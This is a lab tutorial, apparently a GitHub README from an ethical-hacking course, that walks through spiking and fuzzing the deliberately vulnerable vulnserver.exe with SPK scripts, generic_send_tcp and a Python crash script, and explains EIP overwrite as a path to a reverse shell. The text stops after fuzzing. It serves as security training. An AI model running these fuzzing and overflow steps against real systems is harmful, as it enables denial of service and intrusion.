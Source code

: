 # A simple walkthrough for a windows vulnerable server (vulnserver.exe)

This tutorial is based on the "Practical Ethical Hacking - The Complete Course", a Udemy course made by Mr. Heath Adams (The Cyber Mentor)

# Requirements
- Download and install: Kali (for attacker machine) and windows 10 (victim's machine)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Vulnserver: http://www.thegreycorner.com/p/vulnserver.html

# Things to remember:
1. Make sure you disable the Windows Defender in Windows VM.
2. Allow files and printer sharing in your firewall (make sure you can ping windows VM from your Kali VM).
3. Always run Immunity Debugger (IMD) and Vulnserver.exe as Administrator.
4. Close and re-run Immunity Debugger and Vulnserver.exe after an attack from Kali machine to prevent issues.

# Steps to conduct bufferoverflow
1. Spiking 
2. Fuzzing  
3. Find the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding Right Modules (MSF)
7. Generating shellcode (MSF)
8. Root!

## I. Spiking
1. On windows, open vulnserver.exe (always run as administrator)
2. On Kali VM, try to test if Kali can connect to Windows via netcat. Usuallly, vulnserver runs on port 9999.
```
$ nc -nv 192.168.17.134 9999
```
This will be the result if you type **HELP**

![HELP_cmd](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/HELP_command.png)

Notes:
>We can use these command to test if the target is vulnerable to bufferoverflow. 
>We will try use STATS but **spoiler alert, TRUN is the correct payload for this exercise.

3. We will create files with payload and try if the target machine is vulnerable to bufferoverflow. Create a filed called '[stats.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/stats.spk)' and ‘[trun.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/trun.spk)’

>stats.spk

````spk
s_readline();
s_string("STATS ");
s_string_variable("0");
````
>trun.spk

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
4. Open **IMD** as administrator, click File > Attach > select vulnserver > click Attach > click the run icon ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png)

![file_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/file_attach.png)

![vulnserver_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/vulnserver_attach.png)

It will look something like this:

![imd_vulnserver_attached_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/imd_vulnserver_attached.png)

Note:

>- In the lower right you can see the status **Paused** ![paused_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/paused.png) \
>- Click the run button on the menu ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png) to change the status to **Running** ![running_status](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/running.png) 

5. On Kali, run **generic_send_tcp** <target_ip> <port> <payload_file.spk> 0 0.

```
$ generic_send_tcp 192.168.17.134 9999 stats.spk 0 0
```
![fuzzing_output_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_output.png) 

>**IMPORTANT NOTE!** Always close and re-run the IMD and vulnserver.exe as administrator before doing new attack test.

6. Check the **IMD**, **STATS** command will not make the target crash so we will try the **TRUN** command.

```
$ generic_send_tcp 192.168.17.134 9999 trun.spk 0 0
```

>- Check the **IMD** again and it should look like this. We can see bunch of **A**s and hex **41414141** \
>- **41** means hex of letter **A**. Four bytes of **41** is equal to hex **41414141** \
>- Our payload using **TRUN** command is successful and made the vulnserver crashed!!! Now we confirmed that the server is vulnerable to bufferoverflow!

![spiking_srcshot](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/spiking_srcshot.png) 

Note:
>**Q: How and why the system crashed?** \
>**A:** By sending bunch of As, to the stack buffer. The stack buffer (EAX register) over flows and we successfully allocated As to the Base Pointer (EBP) and Instruction Pointer (EIP). We can see that EBP and EIP values are all 41414141


>**Q: What is EIP and why it is very important to understand?** \
>**A:** The Instruction Pointer (IP) is where the actual command executes!! So, if we can overwrite this, we can send malicious code and gain reverse shell.

## II. Fuzzing

1. We will automate the sending of bunch of As using python script. Make a python2 script ‘fuzz.py’ and copy paste this script.

fuzz.py

````python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = 'A' * 100 

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.17.134', 9999))


		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1) 
		buffer = buffer + 'A' * 100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
		sys.exit()

````













